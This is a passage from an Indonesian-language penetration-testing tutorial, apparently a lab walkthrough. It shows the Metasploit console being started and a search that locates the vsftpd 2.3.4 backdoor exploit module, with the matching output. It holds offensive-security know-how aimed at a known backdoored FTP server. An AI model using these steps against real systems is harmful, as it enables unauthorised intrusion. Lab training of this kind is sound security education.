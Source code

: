    ![gambar4.png](images/gambar4.png) 

    Tunggu beberapa saat hingga Metasploit console siap (ditandai dengan prompt `msf6 >`).

2.  **Cari Eksploit**: Gunakan perintah `search` untuk mencari modul eksploit yang relevan dengan `vsftpd 2.3.4`.

    ```bash
    msf6 > search vsftpd 2.3.4

    Matching Modules
    ================

       #  Name                                 Disclosure Date  Rank    Check  Description
       -  ----                                 ---------------  ----    -----  -----------
       0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
    ```
    ![gambar 5.png](images/gambar%205.png)
